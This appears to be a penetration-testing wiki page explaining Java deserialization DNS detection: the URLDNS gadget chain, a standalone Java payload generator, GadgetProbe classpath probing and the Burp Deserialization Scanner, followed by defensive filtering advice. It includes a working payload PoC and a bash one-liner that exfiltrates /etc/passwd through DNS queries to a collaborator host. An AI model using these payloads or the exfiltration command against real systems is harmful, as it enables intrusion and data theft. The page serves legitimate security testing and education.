


# Java DNS Deserialization, GadgetProbe and Java Deserialization Scanner

{{#include ../../banners/hacktricks-training.md}}

## DNS request on deserialization

The `java.net.URL` class implements `Serializable`, so instances can be included in a Java serialization stream.

```java
public final class URL implements java.io.Serializable {
```

`URL` has a useful side effect for detection: host comparison may require name resolution, and both `equals()` and `hashCode()` are documented as potentially blocking operations. A lookup is not guaranteed on every invocation because the URL object and the resolver can cache results, but a deliberately prepared object can make deserialization perform a DNS lookup.<sup>[[1]](#references)[[5]](#references)</sup>

One way to reach `URL.hashCode()` is to use the URL as a `HashMap` key. While reconstructing a serialized map, `HashMap.readObject()` hashes each key:

```java
private void readObject(java.io.ObjectInputStream s)
        throws IOException, ClassNotFoundException {
        [   ...   ]
    for (int i = 0; i < mappings; i++) {
        [   ...   ]
        putVal(hash(key), key, value, false, false);
    }
```

The relevant call is `hash(key)`, whose implementation invokes the key's `hashCode()` method:

```java
static final int hash(Object key) {
    int h;
    return (key == null) ? 0 : (h = key.hashCode()) ^ (h >>> 16);
}
```

Consequently, deserializing a `HashMap` containing a URL key can execute `URL.hashCode()`.

The relevant part of `URL.hashCode()` is:

```java
 public synchronized int hashCode() {
        if (hashCode != -1)
            return hashCode;

        hashCode = handler.hashCode(this);
        return hashCode;
```

When the cached value is `-1`, the method delegates to the URL stream handler. The handler's calculation includes the host address:

```java
 protected int hashCode(URL u) {
        int h = 0;

        // Generate the protocol part.
        String protocol = u.getProtocol();
        if (protocol != null)
            h += protocol.hashCode();

        // Generate the host part.
        InetAddress addr = getHostAddress(u);
        [   ...   ]
```

Resolving that address can emit the DNS query used as the out-of-band signal.

This dependency-free chain is commonly called **URLDNS**. A callback demonstrates that the target processed the serialization stream far enough to hash the key; it does **not** by itself provide command execution. If a separate gadget has already achieved command execution, its output can be encoded into DNS labels for exfiltration.<sup>[[1]](#references)[[7]](#references)</sup>

### URLDNS payload code example

The canonical [ysoserial URLDNS implementation](https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/URLDNS.java) uses a temporary silent handler to avoid resolving the name while constructing the payload. Because `URL.handler` is transient, the receiving JVM reconstructs the normal handler; resetting the cached hash to `-1` makes the receiver calculate it again. The following standalone PoC preserves that behavior:<sup>[[7]](#references)</sup>

```java
import java.io.File;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.IOException;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.net.InetAddress;
import java.net.URLConnection;
import java.net.URLStreamHandler;
import java.util.HashMap;
import java.net.URL;

public class URLDNS {
	public static void GeneratePayload(Object instance, String file)
            throws Exception {
        //Serialize the constructed payload and write it to the file
        File f = new File(file);
        ObjectOutputStream out = new ObjectOutputStream(new FileOutputStream(f));
        out.writeObject(instance);
        out.flush();
        out.close();
    }
	public static void payloadTest(String file) throws Exception {
        //Read the written payload and deserialize it
        ObjectInputStream in = new ObjectInputStream(new FileInputStream(file));
        Object obj = in.readObject();
        System.out.println(obj);
        in.close();
    }

	public static void main(final String[] args) throws Exception {
		String url = "http://3tx71wjbze3ihjqej2tjw7284zapye.burpcollaborator.net";
		HashMap<URL, String> ht = new HashMap<>(); // HashMap that will contain the URL
		URLStreamHandler handler = new SilentURLStreamHandler();
    URL u = new URL(null, url, handler); // URL to use as the Key
    ht.put(u, url); //The value can be anything that is Serializable, URL as the key is what triggers the DNS lookup.

    // During the put above, the URL's hashCode is calculated and cached.
    // This resets that so the next time hashCode is called a DNS lookup will be triggered.
    final Field field = u.getClass().getDeclaredField("hashCode");
    field.setAccessible(true);
		field.set(u, -1);

		//Test the payloads
		GeneratePayload(ht, "C:\\Users\\Public\\payload.serial");
	}
}


class SilentURLStreamHandler extends URLStreamHandler {

    protected URLConnection openConnection(URL u) throws IOException {
        return null;
    }

    protected synchronized InetAddress getHostAddress(URL u) {
        return null;
    }
}
```

On Java 9 and later, reflective access to the private `java.net.URL.hashCode` field may require launching the generator with `--add-opens java.base/java.net=ALL-UNNAMED`. The serialized payload itself remains dependency-free. Earlier detection approaches modified a Commons Collections chain to perform a DNS query; URLDNS avoids that external library dependency.<sup>[[2]](#references)[[7]](#references)</sup>

## GadgetProbe

You can download [**GadgetProbe**](https://github.com/BishopFox/GadgetProbe) from the Burp Suite App Store (Extender).

**GadgetProbe** tests whether candidate Java classes appear to be present on the target's classpath. Class presence helps select chains for further validation, but does not by itself prove that a particular gadget chain is exploitable.<sup>[[3]](#references)</sup>

### How does it work

**GadgetProbe** combines the DNS signal from the previous section with a probe for an arbitrary class. A callback is evidence that the target resolved the tested class before reaching the URLDNS key. No callback is ambiguous: the class may be absent, but DNS egress controls, caching, serialization filters, incompatible class metadata, or application behavior can also suppress the signal. Confirm findings with more than one controlled probe.

Internally, the tool uses Javassist to create an empty local class with the requested fully qualified name and serializes its `Class` object before a URL key in a `LinkedHashMap`. The insertion order is the oracle: if the receiver cannot resolve the candidate descriptor, deserialization stops before the URL is read; if resolution succeeds, map reconstruction reaches `URL.hashCode()` and the class name appears in the callback hostname. Therefore, this tests **class resolution/loadability**, not whether that class is itself `Serializable` or whether it forms a complete exploitable chain.<sup>[[3]](#references)</sup>

The repository includes [wordlists](https://github.com/BishopFox/GadgetProbe/tree/master/wordlists) of Java classes to test.

 (1).gif>)

### Reliable Burp workflow

Use a differential sequence rather than interpreting a single missing interaction. In Intruder, select the complete serialized value, supply class names as the payload list, and add the `ClassName to GadgetProbe` payload processor **before** transport processors such as Base64 and URL encoding. GadgetProbe polls its own Collaborator context and records positive class names in its tab.<sup>[[3]](#references)[[9]](#references)</sup>

1. Send an ordinary URLDNS payload with a unique hostname to validate the insertion point, decoding layers, Java deserialization path and DNS egress.
2. Probe a stable JRE class such as `java.lang.String` as a known-positive GadgetProbe control.
3. Probe a randomized nonexistent package/class as a known-negative control.
4. Only enumerate third-party candidates when the positive controls call back and the negative control does not. Use fresh callback names when repeating tests to reduce resolver-cache ambiguity.
5. Use **Copy Detect Library Wordlist** and **Detect Library Versions** to combine positive and negative marker classes into the version ranges supported by the extension.<sup>[[9]](#references)</sup>

For a non-HTTP transport, use GadgetProbe as a Java library and serialize the returned object with the protocol-specific framing or encoding:<sup>[[3]](#references)</sup>

```java
GadgetProbe gp = new GadgetProbe("oast.example");
Object probe = gp.getObject(
    "org.apache.commons.collections.functors.InvokerTransformer");

try (ObjectOutputStream out = new ObjectOutputStream(
        new FileOutputStream("probe.bin"))) {
    out.writeObject(probe);
}
```

### From class hits to candidate chains

Treat the output as a classpath fingerprint. Confirm several marker classes, account for shaded/relocated or minimized JARs and application-specific class loaders, and then reproduce candidate chains against the inferred **JDK plus complete dependency-version combination**. A 2024 study experimentally evaluated 46 known chains over 244 JDK builds and 5,455 dependency versions and found that known chains still apply to recent releases; this also demonstrates why one class hit or one apparent library version is not proof that an RCE chain is viable.<sup>[[10]](#references)</sup>

When the application artifacts are available, [Gadgecy](https://github.com/software-engineering-and-security/Gadgecy) complements black-box probing: it can compare JAR hashes in a directory or dependencies in `pom.xml` with experimentally validated, chain-enabling version combinations.<sup>[[10]](#references)</sup>

## Java Deserialization Scanner

This scanner can be downloaded from the Burp App Store (**Extender**). The extension has both passive and active capabilities.<sup>[[4]](#references)</sup>

### Passive

By default, it passively checks requests and responses for Java serialization magic bytes and reports the observation. Finding the marker identifies a serialization data path; exploitability still requires validation:

.png>)<sup>[[4]](#references)</sup>

### Active

**Manual Testing**

You can select a request, right click and `Send request to DS - Manual Testing`.\
Then, inside the _Deserialization Scanner Tab_ --> _Manual testing tab_ you can select the **insertion point**. And **launch the testing** (Select the appropriate attack depending on the encoding used).

<sup>[[4]](#references)</sup>

Although the feature is called "Manual testing", it automates multiple active checks using ysoserial payloads and highlights observed timing or DNS signals. Available checks include Java sleep calls, CPU-consumption delays, and DNS callbacks. These probes deserialize attacker-controlled object graphs and may trigger gadget side effects, so use them only against systems you are authorized to test.

**Exploiting**

Once you have identified a vulnerable library you can send the request to the _Exploiting Tab_.\
In this tab, select the injection point again, specify the candidate gadget chain and command, and press the appropriate **Attack** button.

<sup>[[4]](#references)</sup>

### Java deserialization DNS exfiltration

After a separate gadget chain has achieved command execution, a payload can exfiltrate data through DNS labels. The following example archives `/etc/passwd`, hex-encodes the stream into 31-byte chunks, and resolves each numbered chunk:

```bash
(i=0;tar zcf - /etc/passwd | xxd -p -c 31 | while read line; do host $line.$i.cl1k22spvdzcxdenxt5onx5id9je73.burpcollaborator.net;i=$((i+1)); done)
```

## Defensive guidance

Do not deserialize untrusted native Java serialization streams. Where legacy compatibility makes that impossible, apply a narrow `ObjectInputFilter` allowlist and graph-size limits, and remember that class filters reduce exposure rather than making unsafe object graphs intrinsically safe. JEP 290 introduced JVM-wide and per-stream filtering in Java 9, while JEP 415 added context-specific filter factories in Java 17.<sup>[[6]](#references)[[8]](#references)</sup>


## References

- [1] [Triggering a DNS lookup using Java deserialization](https://blog.paranoidsoftware.com/triggering-a-dns-lookup-using-java-deserialization/)
- [2] [Detecting deserialization bugs with DNS exfiltration](https://www.gosecure.net/blog/2017/03/22/detecting-deserialization-bugs-with-dns-exfiltration/)
- [3] [Bishop Fox GadgetProbe source and usage documentation](https://github.com/BishopFox/GadgetProbe)
- [4] [Reliable discovery and exploitation of Java deserialization vulnerabilities](https://techblog.mediaservice.net/2017/05/reliable-discovery-and-exploitation-of-java-deserialization-vulnerabilities/)
- [5] [Java Platform API — `java.net.URL`](https://docs.oracle.com/en/java/javase/21/docs/api/java.base/java/net/URL.html)
- [6] [JEP 290: Filter Incoming Serialization Data](https://openjdk.org/jeps/290)
- [7] [ysoserial URLDNS payload source](https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/URLDNS.java)
- [8] [JEP 415: Context-Specific Deserialization Filters](https://openjdk.org/jeps/415)
- [9] [GadgetProbe — PortSwigger BApp Store](https://portswigger.net/bappstore/e20cad259d73403bba5ac4e393a8583f)
- [10] [Analyzing Prerequisites of Known Deserialization Vulnerabilities on Java Applications](https://www.abartel.net/static/p/ease2024-javaDeser.pdf)

{{#include ../../banners/hacktricks-training.md}}
